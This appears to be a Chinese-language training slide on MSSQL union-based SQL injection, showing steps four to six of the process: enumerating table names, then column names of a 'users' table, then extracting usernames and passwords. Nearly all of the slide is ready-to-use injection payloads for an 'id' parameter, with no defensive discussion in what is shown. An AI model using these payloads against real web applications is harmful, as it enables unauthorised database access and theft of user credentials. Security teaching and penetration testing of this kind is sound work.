

MSSql联合注入
MSSql联合注入的过程
4、获取表名
id=-1' union select top 1 1,2,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables)

5、获取列名
id=-1' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users')

6、获取数据
id=-1' union select top 1 1,username,password from users where username not in(select top 1 username from users) and password not in(select top 1 password from users)